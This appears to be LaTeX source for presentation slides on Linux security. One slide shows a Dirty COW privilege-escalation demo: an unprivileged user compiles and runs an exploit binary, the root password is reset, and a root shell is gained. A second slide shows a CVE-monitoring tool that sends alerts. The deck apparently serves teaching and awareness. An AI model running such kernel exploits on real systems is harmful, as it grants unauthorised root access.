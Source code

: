 \begin{frame}
\frametitle{\insertsection}
\framesubtitle{Dirty COW (Copy-on-write)}

{\small \texttt{\$ id \\
{\color{green} uid=1000(dcow)} gid=1000(dcow) groups=1000(dcow)
}}

\vspace{\baselineskip}

{\small \texttt{\$ g++ dcow.cpp -std=c++11 -pthread -lutil -o dcow \\
\$ ./dcow \\
Running ... \\
Received su prompt (Password: ) \\
Root password is: dirtyCowFun \\
Enjoy! :-)}}

\vspace{\baselineskip}

{\small \texttt{\$ su root \\
Password: dirtyCowFun \\
\# id \\
{\color{red} uid=0(root)} gid=0(root) groups=0(root)
}}
\end{frame}


\section{Vulncontrol}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{https://github.com/Amet13/vulncontrol}

{\scriptsize \texttt{\$ ./vulncontrol.py −d 2017−02−18 −m 5 -t \$TOKEN:\$ID \\
CVE−2017−6074 9.3 http://www.cvedetails.com/cve/CVE−2017−6074/ \\
CVE−2017−6001 7.6 http://www.cvedetails.com/cve/CVE−2017−6001/ \\
CVE−2017−5986 7.1 http://www.cvedetails.com/cve/CVE−2017−5986/ \\
Telegram alert sent
}}

\begin{figure}
    \center
    \texttt{[image: tscreen]}
\end{figure}
\end{frame}


